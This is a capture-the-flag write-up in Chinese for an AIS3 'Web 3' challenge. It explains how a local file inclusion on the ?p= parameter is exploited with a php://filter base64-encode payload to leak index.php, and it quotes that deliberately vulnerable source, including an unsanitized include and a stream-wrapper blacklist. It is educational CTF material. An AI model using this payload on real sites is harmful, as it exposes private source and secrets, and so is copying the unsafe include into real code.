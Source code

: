 
###### flag : AIS3{Hey!Why_can_you_login_without_the_password???}


Web 3 (3pt)
---

#### Description
Find the flag!

https://quiz.ais3.org:23545/

#### Solution
一開始看到這頁面，找了一番，沒看到什麼東西
後來按about，可以看到網頁後面多個``?p=about``
感覺這裡可以輸入東西
嘗試了一些奇怪的東西，沒什麼反應
突然想到之前有遇過在header裡面``LFI``的題目
來嘗試一下``?p=php://filter/convert.base64-encode/resource=about.php``
失敗
嘗試``?p=php://filter/convert.base64-encode/resource=about``
得到about.php檔案的base64
開始找這各種檔案
最後試到一個常用的index.php
拿到下面的檔案，檔案中有flag
```php=
<?php
// flag1: AIS3{Cute_Snoopy_is_back!!?!?!!?}


// disabled for security issue
$blacklist = ["http", "ftp", "data", "zip"];
foreach ($blacklist as &$s)
    stream_wrapper_unregister($s);

$FROM_INCLUDE = true;

$pages = array(
    // disabled
    // "uploaddddddd" => "Uploads",
    "about" => "About"
);

if (isset($_GET["p"]))
    $p = $_GET["p"];
else
    $p = "home";


if(strlen($p) > 100)
{
    die("parameter is too long");
}

?>

<!DOCTYPE html>
<html lang="en">
<?php
include "header.php";
include $p . ".php";
?>
<footer class="footer">
    <p>© cebrusfs 2017</p>
```